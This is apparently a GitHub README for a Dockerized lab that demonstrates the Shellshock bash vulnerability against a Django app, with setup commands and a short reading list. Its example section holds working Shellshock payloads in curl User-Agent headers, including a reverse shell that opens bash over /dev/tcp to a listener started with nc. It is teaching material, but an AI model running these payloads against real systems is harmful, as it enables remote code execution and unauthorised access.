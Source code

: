 # Shellshock Vulnerability & Django

_NOTE: Tested on Ubuntu 20.04_

## Setup

```bash
docker build -t django_shellshock .
docker run -p 8000:8000 django_shellshock
```

## Example commands

```bash
curl -A "() { echo; }; echo hello;" 127.0.0.1 > /dev/null
# Reverse shell
# terminal 1
nc -l 8001
# terminal 2 (warning: Docker Desktop users' host IP address may be different)
curl -A "() { echo; }; /bin/bash -i &>/dev/tcp/172.17.0.1/8001 0<&1;" 127.0.0.1 > /dev/null  # terminal 2
```

## Sources & Further reading

https://dwheeler.com/essays/shellshock.html

Du, Wenliang. "3. Shellshock Attack" _Computer & Internet Security: A Hands-on Approach_, 2019.